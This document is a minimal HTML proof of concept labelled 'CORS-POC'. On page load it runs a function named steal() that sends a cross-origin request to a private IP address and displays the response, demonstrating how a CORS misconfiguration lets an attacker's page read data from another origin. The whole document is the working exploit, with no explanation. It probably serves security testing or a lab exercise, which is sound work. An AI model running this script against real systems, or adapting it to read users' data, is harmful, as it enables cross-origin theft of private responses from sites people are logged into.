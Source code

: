 # CORS-POC

<html>
    <head>
    <script>
        function steal() {
            var r = new XMLHttpRequest();
            r.onreadystatechange = function() {
                if (r.readyState == 4 && r.status == 200) {
                    alert(r.responseText);
                }
            };
            r.open("GET", "http://192.168.78.135", true);
            r.send();
        }
    </script>
    </head>
    <body onload="steal()">
    </body>
</html>
